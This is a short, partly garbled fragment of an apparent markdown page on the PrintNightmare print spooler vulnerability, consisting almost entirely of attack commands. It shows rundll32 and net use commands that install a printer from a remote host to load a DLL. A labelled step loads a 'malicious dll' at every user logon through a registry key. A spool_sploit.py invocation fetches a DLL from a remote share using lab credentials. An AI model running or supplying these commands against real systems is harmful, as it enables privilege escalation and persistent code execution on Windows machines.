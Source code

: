 ```

 


```
OR
```
net use \\printnightmare.gentilkiwi.com\ipc$ /user:gentilguest password
rundll32 printui.dll,PrintUIEntry /in /n"\\printnightmare.gentilkiwi.com\Kiwi Legit Printer"
```

 


#####Loads malicious dll everytime a user logs on by running the below commands from a normal user context:
```
rundll32 printui,PrintUIEntry /ga /n"\\print.lab.local\Kiwi Legit Printer"
```
OR
```
reg add "HKCU\Printers\Connections\,,print.lab.local,Kiwi Legit Printer" /f /v Provider /t REG_SZ /d win32spl.dll
```



python3 spool_sploit.py -a nightmare -lS '\\10.0.0.4\printer\printer.dll' -d lab.local -u low_user -p 'P@ssw0rd12345' -rP 445 -rH 10.0.0.5